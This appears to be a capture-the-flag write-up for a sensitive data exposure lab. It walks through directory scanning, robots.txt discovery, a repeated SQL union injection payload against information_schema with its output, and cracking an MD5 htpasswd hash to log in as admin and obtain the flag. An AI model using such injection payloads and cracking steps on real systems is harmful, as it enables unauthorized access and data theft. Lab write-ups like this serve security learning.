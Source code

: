 # Sensitive_data_exposure

## Sensitive_data_exposure_explain

Generally, our sensitive information includes passwords, financial data, medical data, etc. Due to the unencrypted or incorrect protection of sensitive data in web applications or APIs, these data are easily exploited by attackers, and attackers may use these data to commit crimes. Behavior.

## Scan_website_path

    First one, i try scan website path using "Dirsearch".
    And i found a "/admin/" and "/robots.txt" that's interesting.

## /admin/

    We need a account to connect this page.

## /robots.txt

    A page content some information:
    User-agent: *
    Disallow: /whatever
    Disallow: /.hidden

## /whaterver
ID: 1 or 1=1 union select column_name, table_name from information_schema.columns where table_schema=database(); 
Title: list_images
Url : id
ID: 1 or 1=1 union select column_name, table_name from information_schema.columns where table_schema=database(); 
Title: list_images
Url : url
ID: 1 or 1=1 union select column_name, table_name from information_schema.columns where table_schema=database(); 
Title: list_images
Url : title
ID: 1 or 1=1 union select column_name, table_name from information_schema.columns where table_schema=database(); 
Title: list_images
Url : comment
    A index page content a "htpasswd" file.


## htpasswd
    A file content "root:8621ffdbc5698829397d97767ac13db3"
    8621ffdbc5698829397d97767ac13db3 -> MD5 hash -> after crack: dragon
    That i think is a admin account password

## Get_flag
    I trying connect to "admin" using "root" and "dragon".
    And finally, i get flag: d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff

## Solutions